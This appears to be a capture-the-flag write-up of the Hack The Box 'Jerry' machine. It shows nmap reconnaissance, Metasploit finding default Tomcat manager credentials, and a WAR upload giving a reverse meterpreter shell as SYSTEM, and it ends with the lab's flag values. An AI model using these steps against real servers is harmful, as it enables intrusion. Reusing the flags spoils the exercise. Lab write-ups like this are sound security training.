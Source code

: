 # Jerry – Hack The Box

**Operating System:** Windows  
**Difficulty:** Easy  
**Author:** mrh4sh  
**Date of Engagement:** 2025-07-30

---

## Engagement Overview

**Target IP:** 10.10.10.95 
**Local IP:** 10.10.16.9  
**Objective Summary:**
- Exploit Apache Tomcat
- Gain a `NT Authority\SYSTEM` shell
- Fully compromising the target

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -A -o nmap.txt 10.10.10.95
```

**Result Summary:**
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Host Info

```
Microsoft Windows Server 2012 R2
```

---

## Methodologies

### Initial Access –

**Metasploit**
- Found credentials:
```
msf6 auxiliary(scanner/http/tomcat_mgr_login run
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Tools & Payloads Used:**
- Metasploit

**Penetration Result:**  
```
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
[*] Started reverse TCP handler on 10.10.16.9:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying bJKTyJ1deM...
[*] Executing bJKTyJ1deM...
[*] Sending stage (58073 bytes) to 10.10.10.95
[*] Undeploying bJKTyJ1deM ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.16.9:4444 -> 10.10.10.95:49192) at 2025-07-30 15:56:40 -0400

meterpreter > getuid
Server username: JERRY$
meterpreter > 
```

---

## Privilege Escalation

Not applicable. Initial exploit yielded SYSTEM-level shell.

```
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
---

## House Cleaning

- No post-exploitation persistence left on target
- Exploit did not require uploads beyond shell payload

---

## Post-Exploitation

### Credentials & Flags

- `user.txt`: `7004dbcef0f854e0fb401875f26ebd00`  
- `root.txt`: `b6b9cccdf6904e9ffdb0110122a50a43`

---

## Tools Utilized

* nmap
* metasploit

---

## Key Takeaways

* Enumerating Tomcat credentials via Metasploit
* Abusing Tomcat WAR uploads via Metasploit